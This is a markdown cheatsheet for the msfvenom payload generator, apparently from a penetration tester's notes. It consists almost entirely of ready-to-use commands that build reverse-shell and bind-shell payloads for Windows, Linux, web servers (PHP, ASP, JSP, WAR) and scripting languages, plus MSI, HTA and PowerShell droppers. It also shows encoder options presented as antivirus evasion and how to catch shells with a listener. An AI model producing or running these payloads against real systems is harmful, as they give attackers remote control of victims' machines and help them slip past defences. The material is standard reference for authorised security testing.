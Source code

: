 ```yaml
---
title: msfvenom
category: Access
tags: [tool, payload, exploits, cheatsheet]
tools: ['msfvenom']
---
```


# msfvenom

## General Syntax
`msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <outfile>`

- `-p` → payload  
- `LHOST` → local host (attacker)  
- `LPORT` → local port (attacker)  
- `-f` → output format (exe, elf, asp, war, raw, etc.)  
- `-o` → output file  

---

## Common Reverse Shell Payloads

### Windows
- Reverse TCP:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe`

- Reverse HTTPS:  
  `msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port> -f exe -o shell.exe`

- Stageless Reverse TCP:  
  `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o rev.exe`

---

### Linux
- Reverse TCP ELF:  
  `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf`

- Stageless Reverse TCP:  
  `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o rev.elf`

---

### Web Payloads
- PHP Reverse Shell:  
  `msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php`

- ASP Reverse Shell:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp`

- JSP Reverse Shell:  
  `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp`

- WAR File:  
  `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war`

---

## Bind Shell Payloads

- Windows Bind TCP:  
  `msfvenom -p windows/meterpreter/bind_tcp LPORT=<port> -f exe -o bind.exe`

- Linux Bind TCP:  
  `msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=<port> -f elf -o bind.elf`

---

## Scripting Payloads

- Python:  
  `msfvenom -p python/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -o shell.py`

- Bash:  
  `msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -o shell.sh`

- Perl:  
  `msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -o shell.pl`

---

## Other Formats

- PowerShell:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f psh -o shell.ps1`

- MSI Installer:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o setup.msi`

- HTA (HTML Application):  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o shell.hta`

---

## Encoding & Evasion

- Show encoders:  
  `msfvenom -l encoders`

- Use encoder:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe`

---

## Useful Notes
- Use `msfvenom -l payloads` to list all payloads.  
- Staged payloads = `/meterpreter/reverse_tcp` (require handler).  
- Stageless payloads = `/shell_reverse_tcp` (direct shell).  
- Always set matching `LHOST`/`LPORT` in listener (e.g. Metasploit `multi/handler`).  